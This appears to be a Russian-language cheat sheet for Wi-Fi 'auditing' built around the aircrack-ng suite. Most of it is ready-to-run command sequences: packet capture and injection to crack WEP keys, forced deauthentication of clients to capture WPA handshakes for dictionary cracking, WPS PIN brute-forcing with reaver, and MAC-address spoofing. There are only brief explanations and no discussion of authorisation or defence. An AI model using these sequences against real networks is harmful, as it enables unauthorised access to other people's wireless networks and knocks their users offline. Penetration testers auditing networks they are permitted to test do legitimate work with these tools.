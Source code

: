 # Аудит Wi-Fi

Режимы работы Wi-Fi:

* Client mode (managed mode) - ловить только своё
* Monitor mode (rfmon mode) - ловить всё отовсюду
* Promiscuous mode - ловить всё в своей сети

Запуск монитора:

```bash
airmon-ng start wlan0
```

Отключить всех, кто использует сетевую карту:

```bash
airmon-ng check kill
```

Вывод на экран всего, что поймаем:

```bash
airodump-ng mon0
```


## airodump-ng

```bash
airodump-ng -c 3 mon0
```

зафиксировать канал №3 — полный приём пакетов без потерь при переключении на другие каналы (из-за перекрывающихся частот в список могут попасть соседние каналы).

```bash
airodump-ng -w captures.pcap mon0
```

записывать все принятые пакеты в файл captures.pcap — используется для offline-атаки на перебор пароля WEP/WPA (будет освещено в следующей части).

```bash
airodump-ng --essid "Имя сети" mon0
```

фильтровать принимаемые (записываемые/отображаемые) пакеты по принадлежности к заданному имени сети. Обычно используется для уменьшения размера файла, так как на качество перехвата это никак не влияет.

```bash
airodump-ng --bssid 01:02:03:AA:AA:FF mon0
```

фильтрация по MAC-адресу точки доступа (BSSID). Аналогично `--essid`.


## WEP

1. Поймать много-много пакетов
	1. Нацелить монитор на точку доступа
	    ```bash
		airodump-ng -c CHANNEL --bssid AP_BSSID -w output wlan0
		```
	2. Подружиться с точкой доступа
	    ```bash
		aireplay-ng -1 0 -e ESSID -a MAC_ТД -h НАШ_MAC wlan0
		```
	3. Создать паразитный трафик
	    ```bash
		aireplay-ng -3 -b MAC_ТД -h НАШ_MAC wlan0
		```
2. Перебор пароля
    ```bash
	aircrack-ng -z output*.cap
	```


## WPA/WPA2

1. Включить мониторинг пакетов
    ```bash
	airodump-ng -c CHANNEL --bssid AP_BSSID -w output mon0
    ```
2. Выкидываем клиента из сети и ловим handshake
    ```bash
	aireplay-ng --deauth 5 -0 CHANNEL -a AP_BSSID -c CLIENT_BSSID mon0
	```
3. Перебор по словарю
    ```bash
	aircrack-ng -w password.lst -b AP_BSSID output*.cap
	```


## WPS

Список сетей с WPS:

```bash
wash -i mon0
```

```bash
reaver -i mon0 -c CHANNEL -b AP_BSSID -va
```

Некоторые ключи:

```
-m OUR_MAC
-e AP_ESSID
-p PIN
-vv -- для показа принятых/переданных пакетов, в том числе тех самых M4 и M6. Полезно для отслеживания активности при плохом соединении.
```

## Смена MAC

```bash
ifconfig wlan0 down 
ifconfig wlan0 hw ether 00:11:22:AA:AA:AA 
ifconfig wlan0 up
```

Случайный MAC:

```bash
macchanger -r wlan0 
```

Определённый MAC:

```bash
macchanger -m 11:22:33:AA:BB:CC wlan0 
```

Показать MAC:

```bash
macchanger -s wlan0 
```

